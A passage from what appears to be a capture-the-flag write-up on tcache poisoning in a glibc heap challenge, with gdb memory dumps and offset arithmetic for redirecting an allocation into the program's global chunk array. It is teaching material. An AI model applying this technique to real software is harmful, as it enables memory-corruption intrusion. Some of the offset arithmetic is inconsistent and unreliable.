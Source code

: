 So we see here, the first chunk allocated in the heap is the actual `tcache` (the two arrays of tcache bin sizes and bin head ptrs). As such, the tcache data structure begins at offset `0x10` from the start of the heap, which is `0x55911e1cb000`. This is a way I found out to see where the tcache is allocated, from looking at the code for the `gef` gdb wrapper. I'm unsure if it works this way with multi threaded programs.

That being said, I want to overwrite the bin head for the chunk size `0xa0`, which is the 9th tcache bin (starts at `0x20`, and increases by `0x10` for each one). As such, we will need to write a `0x01` to it's bin size, and the ptr to the bin head location.

The tcache data structure starts at `0x55911e1cb010`. The first array consists of `64` two byte size values, for a total of `2*64 = 0x80` bytes. Since this is the ninth value, and the indices start at `0`, we have to write a `0x01` to `8*2 + 0x55911e1cb010 = 0x55911e1cb020`.

The tcache sizes array ends at `0x55911e1cb010 + 0x80 = 0x55911e1cb090`, so the bin head ptrs begin at `0x55911e1cb010`. Since we are wanting to write to the ninth value (based at `0` so index of `8`), and ptrs are `0x08` bytes long, the bin head ptr location we want to write to is `0x55911e1cb090 + 0x8*0x8 = 0x55911e1cb0d0`.

We will be using the same index to write to these values (chunk `0x55911e1ccbd0`), and we can calculate the offsets to reach them like this:

```
(0x55911e1ccbd0 - 0x55911e1cb0d0) / 8 = 864
(0x55911e1ccbd0 - 0x55911e1cb020) // 8 = 0x886
```

Next up, we will just allocate another heap chunk:

```
gef➤  x/20g 0x55911df28040
0x55911df28040 <chunks>:    0x55911e1cc6c0    0x55911e1ccbd0
0x55911df28050 <chunks+16>:    0x0    0x0
0x55911df28060 <chunks+32>:    0x0    0x0
0x55911df28070 <chunks+48>:    0x0    0x0
0x55911df28080 <chunks+64>:    0x0    0x0
0x55911df28090:    0x0    0x0
0x55911df280a0 <chunk_sizes>:    0x80000000a0    0x0
0x55911df280b0 <chunk_sizes+16>:    0x0    0x0
0x55911df280c0 <chunk_sizes+32>:    0x0    0x0
0x55911df280d0:    0x0    0x0
gef➤  x/10g 0x55911e1cc6b0
0x55911e1cc6b0:    0x0    0xb1
0x55911e1cc6c0:    0x7febc602d130    0x7febc602d130
0x55911e1cc6d0:    0x55911e1cc6b0    0x55911e1cc6b0
0x55911e1cc6e0:    0x0    0x0
0x55911e1cc6f0:    0x0    0x0
```

So we see a new heap chunk allocated at `0x55911e1cc6c0`. We allocated this to have the corresponding `chunk_sizes` value set. Now to allocate a chunk to `chunks`, which we prepared with the tcache bin overwrite:

```
gef➤  x/20g 0x55911df28040
0x55911df28040 <chunks>:    0x55911e1cc6c0    0x0
0x55911df28050 <chunks+16>:    0x55911df28040    0x0
0x55911df28060 <chunks+32>:    0x0    0x0
0x55911df28070 <chunks+48>:    0x0    0x0
0x55911df28080 <chunks+64>:    0x0    0x0
0x55911df28090:    0x0    0x0
0x55911df280a0 <chunk_sizes>:    0x80000000a0    0x90
0x55911df280b0 <chunk_sizes+16>:    0x0    0x0
0x55911df280c0 <chunk_sizes+32>:    0x0    0x0
0x55911df280d0:    0x0    0x0
gef➤  x/10g 0x55911df28040
0x55911df28040 <chunks>:    0x55911e1cc6c0    0x0
0x55911df28050 <chunks+16>:    0x55911df28040    0x0
0x55911df28060 <chunks+32>:    0x0    0x0
```